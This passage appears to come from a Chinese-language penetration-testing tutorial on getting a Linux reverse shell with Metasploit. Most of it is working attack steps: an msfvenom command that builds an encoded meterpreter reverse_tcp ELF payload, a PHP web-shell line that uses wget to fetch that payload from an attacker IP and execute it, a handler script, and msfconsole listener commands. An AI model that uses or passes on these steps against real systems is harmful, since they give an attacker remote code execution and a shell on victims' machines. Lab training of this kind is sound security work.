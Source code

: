 ```
whoami #查看当前用户权限
```



## 3-4 msf_linux反弹shell

msfvenom生成木马

```
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.81.131 LPORT=4444 -b "\\x00" -i 10 -f elf -o  /var/www/html/linux_shell
```

![image-20220318145204666](https://gitee.com/xxb667/img/raw/master/img/image-20220318145204666.png)

php文件,生成的php文件名为：**linux_shell.php**

通过蚁剑进行文件上传

```
<?php system("wget 192.168.81.131/linux_shell -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &")?>
```

![image-20220318150348384](https://gitee.com/xxb667/img/raw/master/img/image-20220318150348384.png)

创建**linux.rc**文件，并添加下列内容

```
vim linux.rc  #创建文件
```

添加的内容如下

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

我的文件路径为 

```
/home/xxb1  #可以自己找到合适的路径进行文件建立
```

![image-20220318151533016](https://gitee.com/xxb667/img/raw/master/img/image-20220318151533016.png)

服务端监听

```
msfconsole  -qr /home/xxb1/linux.rc 
```

蚁剑运行上传的php木马文件

```
php linux_shell.php
```
